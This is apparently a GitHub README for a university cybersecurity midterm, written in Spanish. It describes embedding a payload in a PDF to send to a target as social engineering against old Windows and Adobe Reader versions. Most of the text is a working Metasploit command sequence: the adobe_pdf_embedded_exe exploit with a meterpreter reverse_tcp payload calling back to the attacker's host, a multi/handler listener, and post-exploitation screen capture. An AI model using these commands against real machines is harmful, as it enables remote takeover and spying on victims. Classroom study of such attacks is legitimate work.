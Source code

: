 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x <br />
<br />
use exploit/windows/fileformat/adobe_pdf_embedded_exe <br />
set payload windows/meterpreter/reverse_tcp <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
set infilename /root/parcial/el_gigante_egoista.pdf <br />
exploit <br />
<br />
back <br />
use exploit/multi/handler <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
exploit <br /> 
<br />
Enviar archivo a la máquina que se desea atacar <br />
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter<br />
<br />
load espia<br />
screengrab

